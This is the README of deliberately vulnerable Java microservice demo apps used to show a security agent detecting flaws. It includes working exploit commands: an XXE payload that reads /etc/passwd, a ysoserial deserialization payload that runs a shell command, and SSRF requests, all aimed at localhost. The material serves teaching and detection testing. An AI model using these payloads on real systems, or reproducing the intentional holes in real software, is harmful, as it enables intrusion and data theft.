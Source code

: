 # java-sample-apps
This repo holds a few Java apps showing the agent's ability to discover the most common vulnerabilities in microservices.

There are 3 microservice apps that implement a "book store".

## The Microservices

### bookstore-frontend (8000)

The bookstore-frontend app is a jax-rs app serving as a front end for the book store, exposing these
endpoints for book management:
 - GET /health
 - POST /add (this endpoint has an XXE vulnerability)
 - POST /delete
 - GET /list
 - GET /debug

### bookstore-data-manager (8001)

The bookstore-data-manager app is a SpringBoot app which holds the book data, offering a few services:
 - GET /ping
 - POST /add
 - POST /update (this "internal only" endpoint has a deserialization vulnerability)
 - POST /delete
 - GET /list
 
### bookstore-devservice (aka debug) (8002) 
 
The bookstore-debug app is a Dropwizard app that offers info to the devs:
 - GET /application/ping
 - GET /application/info?env=qa (this endpoint has an SSRF vulnerability)

## Usage

The first step is to start all 3 of the services, which will run on ports 8000, 8001 and 8002, respectively.

To start normally:
```
$ docker-compose up -d 
```

If you don't want to use docker-compose, each service has a Dockerfile to make running 1 step. Consult each service's `README.md` to see the commands.

### Using the services

You're _supposed_ to do everything through the frontend service.

Get a health check on the entire bookstore service mesh:
```
$ curl http://localhost:8000/health
```

List all the books:
```
$ curl http://localhost:8000/list
```

Add a book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<book><title>The Giving Tree</title><pages>30</pages></book>'
```

Alternatively, you can add a book through the backend service directly, where it expects JSON:
```
$ curl -H "Content-Type: application/json" http://localhost:8001/add -d '{"pages":"30", "title":"The Giving Tree"}'
```

Get debug info on the service:
```
$ curl http://localhost:8000/debug
```

## Detecting the vulnerabilities
To detect the vulnerabilities, start the apps with Contrast enabled as described above.  Then use the services to exercise the code.  It should not be necessary to exploit the vulnerabilities, in order for Contrast to identify the vulnerabilities.

## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by adding a new malicious
book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which you can see by
checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not supposed to be used from
the outside, which is why it's not available through the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized Java object with `Book`
type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm ysoserial CommonsCollections5 '/usr/bin/touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@commonscollections5.ser" http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the running container. 

If you started with docker-compose, the container ID is something like java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```

Now, using that container ID, we shell into the container and confirm the exploit created the `/tmp/hacked` file:
```
$ docker exec -it java-microservice-sample-apps_bookstore-datamanager_1 ls -al /tmp/hacked
...
-rw-r--r-- 1 root root 0 <time> /tmp/hacked
```

### Server Side Request Forgery (SSRF)
The `bookstore-frontend` exposes a "info" service, only intended for developers. It is intended to be used to rertieve data about different developer environments, but it can be used to force the app to retrieve data from other URLs:
```
$ curl http://localhost:8002/application/info?env=google.com/?
```

Obviously in this case we ask the server to retrieve Google content, but it could as easily be pointed towards URLs typically only accessed within your perimeter.

```
$ curl http://localhost:8002/application/info?env=SECRET
```
